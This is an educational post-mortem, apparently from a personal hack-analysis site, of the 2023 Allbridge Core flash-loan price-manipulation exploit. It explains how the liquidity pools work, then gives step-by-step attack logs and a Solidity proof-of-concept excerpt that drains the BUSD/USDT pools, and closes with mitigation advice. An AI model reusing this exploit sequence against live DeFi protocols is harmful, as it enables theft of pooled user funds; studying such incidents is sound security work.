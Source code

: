 # Allbridge

![Swag Image](https://static.vecteezy.com/system/resources/thumbnails/009/665/324/small/cute-kitty-cat-on-train-cartoon-element-free-png.png)


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks


## Amount stolen
**$550k USD**

2-04-2023

## Vulnerability
Flashloan attack


## Analysis
The root cause appears to be the manipulation of the pool's swap price.
The attacker was able to act as the liquidity provider and swapper resulting in the user manipulating the price and draining funds from the pool

Each Allbridge Core liquidity pool is essentially a swap contract, 
similar to the existing decentralized exchanges like Uniswap or Curve Finance.
The difference between Allbrige's pools is the fact that liquidity is provided in just one token (unlike the regular DEXes, which require two tokens).

When liquidity is deposited, it matches the deposited amount by minting the same amount of vUSD tokens*. This token is used as an intermediary to transfer value from one pool to another (either within the same blockchain or between two different blockchains).

*vUSD token is an abstraction used within the Allbridge Core ecosystem. Technically it is not a token, as it never gets out to user balances as an actual token. However, it is easier to explain the concept of how Allbridge Core works using this “token” analogy.

To illustrate, consider bridging BUSD from the BNB Chain to USDT on Tron. The process involves swapping BUSD for vUSD, transferring the vUSD value to Tron through a cross-chain messaging protocol, and ultimately swapping vUSD for USDT on Tron. Notably, this directional swap results in a decrease in the internal price of BUSD to vUSD, while the price of USDT to vUSD increases. This dynamic encourages other participants to bridge assets in the opposite direction, seeking profitable opportunities within the Allbridge Core ecosystem.


# Proof of Concept (PoC) 

![Swag Image](../images/allbridge.png)

#### We initiate a flashloan of $7.5M BUSD


During the flashloan, the following steps are executed:

1. **Swap for USDT:**
   - Swap 2 million BUSD for $2M USDT.

2. **Deposit into BUSD Pool:**
   - Deposit $5M BUSD into the BUSD pool using the `deposit` function.

3. **Swap BUSD for USDT:**
   - Swap 500k BUSD for USDT.

4. **Deposit into USDT Pool:**
   - Deposit $2M USDT into the USDT pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate: 5322629245 5306461333 1`

5. **Bridge Swap:**
   - Use the bridge to swap 500k USDT for 500k BUSD, resulting in a high dividend for the previous liquidity deposit.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 4831042788 5799131323 1`


7. **Withdraw from BUSD Pool:**
   - Withdraw $5M BUSD from the BUSD pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 43730 968132265 22138`


8. **Bridge Swap for Profit:**
   - Use the bridge to swap 40k BUSD for 790k USDT, exploiting the artificial pool imbalance.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 39983730 178738726 4`

10. **Withdraw from USDT Pool:**
   - Withdraw $2M USDT from the USDT pool.

11. **Swap USDT for BUSD:**
   - Swap all USDT for BUSD.

11. **Repay Flashloan:**
    - Repay the flashloan using the repaid funds.

12. **Transfer Funds:**
    - Transfer the remaining funds to the attacker's account.
   
`Attacker BUSD balance after exploit: 549889.574365192879687841`


This sequence of actions exploits the liquidity pools, taking advantage of imbalances to maximize gains and navigate the cross-chain swaps.


```solidity
      Swap.swap(address(BUSD), address(USDT), 2_003_300 * 1e18, 1, address(this), block.timestamp);
        BUSDPool.deposit(5_000_000 * 1e18); // deposit BUSD to BUSDPool
        Swap.swap(address(BUSD), address(USDT), 496_700 * 1e18, 1, address(this), block.timestamp);
        USDTPool.deposit(2_000_000 * 1e18); // deposit USDT to USDTPool

        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.tokenBalance() / BUSDPool.vUsdBalance()
        );
        bytes32 token = bytes32(uint256(uint160(address(USDT))));
        bytes32 receiveToken = bytes32(uint256(uint160(address(BUSD))));
        BridgeSwap.swap(USDT.balanceOf(address(this)), token, receiveToken, address(this)); // BridgeSwap USDT to BUSD
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BUSDPool.withdraw(4_830_262_616); // Amplify the imbalance of vUSDbalance and tokenbalance in BUSDPool
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BridgeSwap.swap(40_000 * 1e18, receiveToken, token, address(this)); // BridgeSwap BUSD to USDT
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );
        USDTPool.withdraw(1_993_728_530);

        Swap.swap(address(USDT), address(BUSD), USDT.balanceOf(address(this)), 1, address(this), block.timestamp);
        BUSD.transfer(address(Pair), 7_522_500 * 1e18);
```

## One asset per chain

To prevent the possibility of flash loan attacks, they deployed a single liquidity pool per blockchain. Therefore, it would not be possible to execute an exploit in a single transaction. 

## Mitigation and Best Practices:

Protocols need to add security layers,
using at least two oracles to verify the price. An oracle serves as a means to obtain Real-World Data, enabling smart contracts to interact with external information. This approach would have detected anomalies, such as the mismatch where $40,000 BUSD should not have been able to purchase 700,000 USDT tokens, preventing potential vulnerabilities or exploits.


## Conclusion 

In summary, the attacker is executing a series of actions that involve swapping, depositing, and withdrawing across various pools. These actions create imbalances within the pools, leading to this vulnerability.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Allbridge_exp2.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
